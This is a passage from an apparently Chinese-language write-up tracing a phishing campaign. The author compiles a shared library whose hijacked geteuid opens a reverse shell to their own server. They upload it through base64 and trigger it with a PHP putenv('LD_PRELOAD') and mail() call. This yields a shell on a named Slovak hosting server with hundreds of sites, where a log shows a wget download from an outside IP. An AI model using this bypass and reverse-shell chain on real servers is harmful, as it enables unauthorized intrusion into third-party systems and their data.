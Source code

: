 当这个共享库中的geteuid被调用时尝试加载payload()函数执行命令调用system执行一个反弹shell的操作xxx.xxx.xxx.xxx即是我的公网服务器IP

编译

1. `gcc -c -fPIC bypass.c -o bypass`
2. `gcc -shared bypass.c -o bypass.so`

上传

1. `www-data@m7web1:/tmp$ cat b64.txt|base64 -d >bypass.so`
2. `www-data@m7web1:/tmp$ file bypass.so`
3. `file bypass.so`
4. `bypass.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV)`

执行

bypass.php

1. `<?php`
2. `putenv("LD_PRELOAD=/tmp/bypass.so");`
3. `mail("test@localhost","","","","");`
4. `?>`

浏览器访问`http://www.mirohaviar.sk/bypass.php`页面后成功执行命令得到了一个www-user权限的反弹shell。

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548385897_5c4a7e695358f.png!small)

**4.3.2 发现行踪**

仔细看这是一家斯洛伐克的网络公司这台服务器上面托管了五百多个网站当前的权限可以访问这些网站的文件和数据库令人遗憾的的是apache日志目录`/var/log/apache2/`无权限访问。

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548385973_5c4a7eb5862e2.png!small)

不过我在`/tmp`目录下面发现了一个有趣的日志文件。

1. `[/tmp/]$cat w`
2. `--2018-11-26 04:49:06-- http://187.85.134.4/cacat/mm.tgz`
3. `Connecting to 187.85.134.4:80... connected.`
4. `HTTP request sent, awaiting response... 200 OK`
5. `Length: 769309 (751K) [application/x-gzip]`
6. `Saving to: 'mm.tgz'`
7. 
8. `0K .......... .......... .......... .......... .......... 6% 174K 4s`
9. `50K .......... .......... .......... .......... .......... 13% 176K 4s`
10. `100K .......... .......... .......... .......... .......... 19% 14.1M 2s`
11. `150K .......... .......... .......... .......... .......... 26% 353K 2s`
12. `200K .......... .......... .......... .......... .......... 33% 353K 2s`
13. `250K .......... .......... .......... .......... .......... 39% 19.8M 1s`
14. `300K .......... .......... .......... .......... .......... 46% 355K 1s`
15. `350K .......... .......... .......... .......... .......... 53% 28.7M 1s`
16. `400K .......... .......... .......... .......... .......... 59% 23.6M 1s`
17. `450K .......... .......... .......... .......... .......... 66% 344K 1s`
18. `500K .......... .......... .......... .......... .......... 73% 18.0M 0s`
19. `550K .......... .......... .......... .......... .......... 79% 360K 0s`
20. `600K .......... .......... .......... .......... .......... 86% 20.4M 0s`
21. `650K .......... .......... .......... .......... .......... 93% 20.2M 0s`
22. `700K .......... .......... .......... .......... .......... 99% 12.7M 0s`
23. `750K . 100% 2438G=1.3s`
24. 
25. `2018-11-26 04:49:10 (577 KB/s) - 'mm.tgz' saved [769309/769309]`
